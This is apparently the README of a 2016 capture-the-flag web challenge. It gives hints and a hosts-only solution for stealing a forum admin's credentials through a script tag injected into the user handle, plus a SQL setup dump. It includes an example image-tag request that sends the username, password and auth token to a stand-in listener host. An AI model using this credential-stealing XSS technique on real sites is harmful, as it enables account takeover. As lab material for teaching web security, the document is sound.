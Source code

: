 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admins have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
- If they are having problems with the max entered size, have them upload a script onto https://gist.github.com/ and use the RAW link as their created user's handle.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter in the `src`.
  
# Hosts Only . . .
  
## Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. 

### Recommendation at this point
My BIGGEST recommendation is to use https://gist.github.com/. Once there they can make something called `c.js` and put some arbituary JS code in it. once there, use the **RAW** link as their handle and voila! Injected JS that they **CAN EDIT ACTIVELY**. This way if they break the site they can just change their code here to revert it.


Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. ( We might want to provide this ). To send it out, the easiest method is to bind it with an img tag. \<img src="https://mysecretwebsite.ioo/receive?user=admin&password=yadada&authToken=1234567">. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 



# Setup

Import the following SQL to setup
```
# ************************************************************
# Sequel Pro SQL dump
# Version 4541
#
# http://www.sequelpro.com/
# https://github.com/sequelpro/sequelpro
#
# Host: 127.0.0.1 (MySQL 5.5.46-0ubuntu0.14.04.2)
# Database: challenge
# Generation Time: 2016-12-09 20:33:41 +0000
# ************************************************************


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;


# Dump of table login
# ------------------------------------------------------------

DROP TABLE IF EXISTS `login`;

CREATE TABLE `login` (
  `username` varchar(30) NOT NULL DEFAULT '',
  `password` text NOT NULL,
  `authToken` text NOT NULL,
  `handle` varchar(200) NOT NULL DEFAULT '',
  `created` datetime NOT NULL,
  PRIMARY KEY (`username`)
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;

INSERT INTO `login` (`username`, `password`, `authToken`, `handle`, `created`)
VALUES
	('thebestadmin','$2y$10$129139293012312093210u1xpEeTfbT5Yeixf3KSdSAv/BgFs4Qsq','7da7e821a5b8ee25e8f42b56d573f0cc','notyourbusiness','2016-12-09 19:36:34');

/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;



/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
```

There needs to exist a `login` user with password: `Password1` that has the following permissions: `SELECT, INSERT, UPDATE`
to the `login` table, which exists in the `challenge` database.

The above script includes the login credentials so you'll be good.

As for the cron. go to the `cronadmin` folder and npm install. Have the cron run `node index.js` and ensure it works. If it doesn't, login as the admin to get an authtoken logged by going into the website and logging in as `thebestadmin` `securepassword1`. Once there it should create a file named `authTokenStorage.txt` which contains the authToken (I'm lazy, okay?)
